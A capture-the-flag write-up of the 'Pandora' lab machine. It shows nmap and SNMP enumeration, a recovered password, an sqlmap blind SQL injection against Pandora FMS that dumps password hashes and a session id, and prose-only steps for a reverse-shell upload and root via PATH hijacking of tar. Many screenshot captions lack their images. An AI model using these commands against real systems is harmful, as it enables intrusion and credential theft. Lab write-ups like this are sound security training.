

# Pandora

**January 18, 2022**

Nmap scan to discover open ports and service versions.

```c
bracketz:~/Desktop $ nmap -sV -sC 10.10.11.136
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 11:49 -03
Nmap scan report for 10.10.11.136
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.23 secon
```

With UDP Scan we found the SNMP port open. 



```c
sudo apt-get install snmp/rolling
```

### Enumerating SNMP

[https://ktflash.gitbooks.io/ceh_v9/content/43_snmp_enumeration.html](https://ktflash.gitbooks.io/ceh_v9/content/43_snmp_enumeration.html)

```c
snmpwalk -v 1 -c public 10.10.11.136
```


Probably the password of the user Daniel:


```c
HotelBabylon23
```

The machine has another webserver, lets do a port forwarding


```c
sudo ssh -N -L 80:127.0.0.1:80 daniel@10.10.11.136
```

Vhost configuration


Adding host to test:


Port forwarding 


Showing the pandora console:


Password of the site:


Attack vector in chart_generator.php file that uses $_REQUESTS, the article explains more about the exploitation. 

[https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)

PHP $_REQUEST is **a PHP super global variable which is used to collect data after submitting an HTML form**

In this case the exploration is a BLIND SQL


Dumping credentials:

```c
sqlmap -u "http://pandora.pandora.htb/pandora_console/include/chart_generator.php" --data="session_id=aaaa" -T "tusuario" -C fullname,firstname,password --dump
```

```c
Database: pandora
Table: tusuario
[3 entries]
+---------------+-----------+----------------------------------+
| fullname      | firstname | password                         |
+---------------+-----------+----------------------------------+
| Daniel        | <blank>   | 76323c174bd49ffbbdedf678f6cc89a6 |
| Matt          | <blank>   | f655f807365b6dc602b31ab3d6d43acc |
| Pandora Admin | <blank>   | ad3f741b04bd5880fb32b54bc4f43d6a |
+---------------+-----------+----------------------------------+
```

Table: tsessions_php

```c
| id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | g4e01qdgk36mfdh90hvcc54umq |
```

Use the cookie and get access to the panel


Using the serialized object we can get the Admin session with SQL Injection.


To get the reverse shell just upload a zip file with the malicious script to execute:

Script


Zipping:


Uploading:


Executing commands:


Trying to find interesting binaries on the machine:


Download the binary to do reversing we can see that it use a tar, but not use the complete PATH, so we can try PATH injection.


Doing PATH injection


It works but we get the matt again


I reset the machine and try again:


Exporting PATH again:


Let’s try to run a SSH session creating a authorized key and put in the path.


And we get the new session:


With SSH session the script runs:


To give the Root user, I do a PATH hijacking using the TAR binary:

